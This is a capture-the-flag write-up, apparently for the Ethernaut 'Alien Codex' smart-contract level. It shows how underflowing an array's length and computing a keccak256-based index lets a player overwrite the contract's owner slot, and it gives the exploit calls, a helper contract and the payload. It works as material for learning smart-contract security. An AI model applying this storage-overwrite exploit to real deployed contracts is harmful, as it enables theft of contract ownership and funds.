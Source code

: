 ```js
/* STORAGE
* [0]: contract + owner , 
* [1]: codex
* keccak256(1) : codex[0]
*       ..
*        ..
* [2^256]: 0x000000000
*/
```

We want to overlap and get to slot[0] to set it. We can calculate the index of that element by `2^256 - keccack(256)(1) +1`

### Exploit

first we call the `retract` to set the array length to max.

```js
await contract.retract()
```

then we get our payload, here is a utils contract.

```js
contract Utils { 

    function getNumber() public pure returns (uint256){
      uint256 x =0;
        
        // return x-1 - uint256(keccak256(abi.encodePacked(uint256(1))))+1;
        
        return x - uint256(keccak256(abi.encodePacked(uint256(1))));
    }
}
```

We check if we got it right 😄

![Alien Codex - check](images/03ed7019523687b6195b1e2824212ccf9c27300ff053773c2f5b93ea5b79580d.png)  

no need to be puzzled we know what it is it's the contact value + 

![Alien Codex - Level address](images/9faab8cbd57b86461622fa7e3aad8dab64aed6c6d4a52a4ee19088857b840d21.png)  

So our payload should be 

```Js
0x00000000000000000000000184e7a3679A82C2766Ff8382862ab883FF9460307
0x000000000000000000000001YOUR_ADDRESS_HERE
```
